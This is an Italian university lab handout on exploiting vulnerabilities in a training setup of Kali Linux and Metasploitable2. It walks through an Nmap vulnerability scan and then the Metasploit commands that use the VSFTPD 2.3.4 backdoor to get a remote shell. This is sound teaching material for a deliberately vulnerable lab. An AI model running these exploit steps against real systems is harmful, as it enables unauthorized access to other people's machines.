 ```yaml
---
layout: default
title: Sfruttamento di vulnerabilita'
description: Prof.ssa Federica Paci
---
```


In questo laboratorio utilizzeremo la macchina virtuale Kali Linux e la macchina virtuale Metasploitable2. Le due macchine virtuali devono essere collegate da una rete interna. 

Kali Linux è una distribuzione Linux basata su Debian, progettata specificamente per la sicurezza informatica e il penetration testing. Sviluppata e mantenuta dall'azienda Offensive Security, Kali Linux è dotata di un vasto assortimento di strumenti preinstallati per eseguire una varietà di compiti legati alla sicurezza, come penetration testing, analisi di vulnerabilità, digital forensics e reverse engineering del codice. 

Metasploitable 2 è una macchina virtuale vulnerabile, progettata intenzionalmente per essere utilizzata come target di attacchi in ambienti di test di sicurezza informatica. Sviluppata dal team di Rapid7, Metasploitable 2 serve come una piattaforma di apprendimento e pratica per i penetration tester e gli studenti di cybersecurity, permettendo loro di esplorare e testare tecniche di attacco in un ambiente controllato e sicuro.

# Abilitare account root su Kali Linux VM 

Aprite un terminale e digitate il seguente comando:

```
# sudo passwd

```
Vi verra' richiesto di inserire la password per l'utente root.

# Determinare indirizzo IP di Kali Linux e Metasploitable2

Aprite un terminale e digitate il seguente comando:

```
# ifconfig

```

# Scoprire le vulnerabilita' presenti in Metasploitable2

Per scoprire le vulnerabilita' utilizzeremo Nmap. Nmap è ampiamente utilizzato da amministratori di rete, professionisti della sicurezza informatica e hacker etici per identificare dispositivi attivi, scoprire servizi disponibili e rilevare vulnerabilità all'interno di una rete.

Aprite un terminale e digitate il seguente comando:


```
# nmap -sV --script vuln <INDIRIZZO IP METASPLOITABLE2>

```

# Sfruttamento di VSFTPD 2.3.4

VSFTPD (Very Secure FTP Daemon) è un server FTP comunemente utilizzato per la sua velocità e sicurezza. Tuttavia, la versione 2.3.4 di VSFTPD contiene una vulnerabilità critica che può essere sfruttata dagli attaccanti per ottenere accesso non autorizzato al sistema.

## Dettagli della vulnerabilità
La vulnerabilità in VSFTPD 2.3.4 riguarda un backdoor malevolo introdotto nel codice sorgente ufficiale. Quando un utente si connette al server FTP e fornisce una combinazione di nome utente che termina con ":)", il server apre una shell sulla porta 6200, permettendo all'attaccante di ottenere accesso remoto al sistema.

## Passi per sfruttare la vulnerabilita'

Per sfruttare questa vulnerabilita' useremo Metasploit. Metasploit è un framework open-source utilizzato per il penetration testing e lo sviluppo di exploit, creato originariamente da H.D. Moore. Metasploit fornisce una vasta gamma di strumenti e risorse che permettono ai professionisti della sicurezza informatica di identificare, verificare e sfruttare le vulnerabilità nei sistemi informatici.

### Caratteristiche principali di Metasploit
* Libreria di exploit: Metasploit include una vasta raccolta di exploit preconfigurati che possono essere utilizzati per sfruttare vulnerabilità conosciute in software, sistemi operativi e applicazioni.

* Payloads: Metasploit permette agli utenti di scegliere diversi payload, ovvero il codice eseguito dopo che un exploit ha avuto successo. I payload possono variare da semplici comandi di sistema a interi interpreti come Meterpreter, che offre una shell avanzata con funzionalità di post-sfruttamento.

* Auxiliary modules: Oltre agli exploit, Metasploit include moduli ausiliari che possono essere utilizzati per eseguire una varietà di funzioni, come la scansione di rete, il fuzzing delle applicazioni e l'analisi delle vulnerabilità.

* Post-exploitation: Una volta che un sistema è stato compromesso, Metasploit offre una serie di strumenti per l'esecuzione di attività di post-sfruttamento, come la raccolta di informazioni, il movimento laterale e la persistenza.

Metasploit può essere utilizzato attraverso un'interfaccia a riga di comando (msfconsole).

#### Avvio di Metasploit:
```
# msfconsole

```
#### Ricerca di un exploit:

```
# search vsftpd 2.3.4
```
#### Caricamento di un modulo di exploit:

```
# use exploit/unix/ftp/vsftpd_234_backdoor

```

#### Impostazione delle opzioni del payload:
```
# set RHOST <indirizzo_ip>
```

#### Esecuzione dell'exploit:

```
# run
```

